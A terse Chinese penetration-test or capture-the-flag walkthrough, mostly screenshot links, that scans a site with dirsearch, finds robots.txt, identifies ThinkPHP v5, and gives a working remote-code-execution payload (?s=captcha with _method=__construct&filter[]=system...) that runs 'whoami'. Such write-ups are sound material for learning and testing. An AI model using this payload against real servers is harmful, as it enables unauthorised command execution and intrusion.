






dirsearch扫描

 

 

存在robots.txt

访问

 

访问该路径

 

 

ThinkPHP v5框架

搜索该框架漏洞

poc：

 

?s=captcha

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami

 

 

存在回显

 

 

 